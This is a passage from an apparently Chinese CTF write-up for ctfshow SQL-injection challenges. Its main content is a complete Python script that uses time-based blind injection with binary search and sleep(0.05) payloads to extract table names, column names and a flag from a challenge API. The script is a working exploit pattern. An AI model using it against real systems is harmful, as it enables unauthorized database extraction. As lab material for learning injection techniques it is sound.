 分析大佬的脚本，二分法查询相关数据，利用sleep盲注，通过substr比较爆出数据，把if的结果sleep(0.05),1放在了group后面，重点应该在在时间盲注


```python
import requests
import time

url='http://92ed72b8-5087-4bf6-9e3e-c3797af901ec.challenge.ctf.show/api/'
result=''
i=0
while True:
    i+=1
    head=1
    tail=127
    while head<tail:
        mid=(head+tail)>>1
        # ctfshow_flaga,ctfshow_user
        # payload = f"if(ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),{i},1))>{mid},sleep(0.05),1)"
        # id,flagaabc,info 
        # payload = f"if(ascii(substr((select group_concat(column_name) from information_schema.columns where table_name='ctfshow_flaga'),{i},1))>{mid},sleep(0.05),1)"
        payload = f"if(ascii(substr((select flagaabc from ctfshow_flaga),{i},1))>{mid},sleep(0.05),1)"

        data={
            "u":payload
        }
        t1=time.time()
        r=requests.get(url,params=data)
        t2=time.time()
        # print(t2-t1)#调试
        print("[*]程序正在进行.....")
        if t2-t1>0.9:#这边不稳定，要调试
            head=mid+1
        else:
            tail=mid
    if head!=1:
        result+=chr(head)
        print(result)
    else:
        break
```

## web 223

点击去重按钮，可以在f12调试工具网络界面看到请求参数

![223](/medias/show-sql/223.png)
